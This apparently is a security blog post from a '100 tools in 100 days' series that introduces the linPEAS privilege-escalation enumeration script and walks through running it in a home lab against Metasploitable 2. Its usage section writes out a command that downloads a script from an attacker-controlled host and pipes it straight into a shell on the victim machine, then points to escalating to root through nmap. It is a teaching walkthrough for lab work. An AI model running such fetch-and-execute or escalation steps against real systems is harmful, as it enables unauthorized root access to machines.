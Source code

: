 ```yaml
---
title:  "Day 27 - linPEAS - 100 tools in 100 days!"
excerpt: "In this post, I will show you the tool linPEAS and how it works."
mathjax: true
layout: post
categories:
    -- github
    -- website
---
```


1 . Introduction
<br>
2 . My Setup
<br>
3 . What is linPEAS?
<br>
4 . Why use linPEAS?
<br>
5 . How to use linPEAS?
<br>
6 . Summary

---

# Moving forward in this series I will start introducing tools outside of Kali Linux or Parrot OS, this is one of many to come!


## This post is designed to introduce you to Carlos Polop's tool linPEAS.

![](https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/images/linpeas.png)

# <span style="color:red">***Disclaimer***</span>: **Please only use linPEAS for professional and educational reasons. Do not use this tool for nefarious or malicious reasons.**

---

### 1. **Introduction**

Welcome to the **twenty-seventh** blog post of 100 tools in 100 days.<br> 

Find **linPEAS** [here](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS).

Find **HackTricks** and the linPEAS guide [here](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist).


PEASS (Privilege Escalation Awesome Script Suite) is a resource developed and maintained Carlos Polop. Below are links to his platforms:<br>
[PEASS](https://github.com/carlospolop/PEASS-ng)<br>
[linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)<br>
[LinkedIn](https://www.linkedin.com/in/carlos-polop-martin)<br>
[GitHub](https://github.com/carlospolop)<br>
[Twitter](https://twitter.com/carlospolopm)<br>
[Discord](https://discord.gg/hRep4RUj7f)<br>

---

### 2. **My Setup**

For running the linPEAS tool, I used Kali Linux in a VMware Workstation 16 Player virtualized environment.

For my vulnerable host, I am using the Metasploitable 2 instance running in a VMWare Workstation 16 Player virtualized environment. 

---

### 3. **What is linPEAS?**

linPEAS is an awesome script developed by Carlos Polop that finds privilege escalation points in Linux. He also developed winPEAS and macPEAS for Windows and Macintosh respectfully.


---

### 4. **Why use linPEAS?**

Imagine you are hacking one of the Linux machines on Hack The Box and you finally are logged in as a user. You obtained the user flag, but still need to get the root flag. Since as a user you likely have some privileges you can use linPEAS to determine how you can escalate your privileges to root. 

Everyone that has done Hack The Box knows that the Root flag is always the one that gives the attacker the most thrill of achieving. 


---

### 5. **How to use linPEAS?**

For this scenario the following are assumed:

1 . I have gained access to a vulnerable Linux device as a non-root user. I will have my access through SSH.

2 . I have enough permissions to run a script as the user on the Linux device.

Please check out the different ways to get the linPEAS script onto the victim device [here](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS#quick-start).

    Step 1:
    I am going to host the linPEAS script on my attack box using a Python3 http server.

    python3 -m http.server 8989

<br>

    Step 2:
    In my SSH shell I am going to use curl to grab the script from my HTTP server.

    curl <IP_ADDRESS OF KALI>:8989/linpeas.sh | sh

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/linpeas/linpeas1.PNG)

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/linpeas/linpeas4.PNG)

    Step 3:
    As linPEAS runs you will have a nice colorful output 
    on your terminal (if your terminal supports color). 

    We are looking for privilege escalation vectors that are 95% likely to work which will be highlighted yellow with red text.

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/linpeas/linpeas2.PNG)

<br>

    Step 4:
    As I scrolled through my linPEAS output I found that nmap may offer a 95% privilege escalation vector. 

    Thanks to Carlos you can see how to escalate your privileges by referring to the link in each section of linPEAS output.

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/linpeas/linpeas3.PNG)

[Link to SUDO and SUID @ HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid)

I created this user 'jimmy' just for this blog and gave them no additional permissions, but as we can see there may be an escalation point located at /usr/bin/nmap.

Since linPEAS found a possible bin entry point I am going to head to GTFO bins and see what it says about escalation from /usr/bin/nmap [here](https://gtfobins.github.io/#nmap).

As we can see in the below screenshot, nmap likely offers many opprtunitieds to escalate our pvileges from jimmy to a SUDO user or root. 

![]()


    

### 6. **Summary**



I hope you enjoyed this blog post.

Thanks for reading!<br>

If you have suggestions for what tool to cover next, [contact](mailto:matthew.o.mccorkle@gmail.com) me!
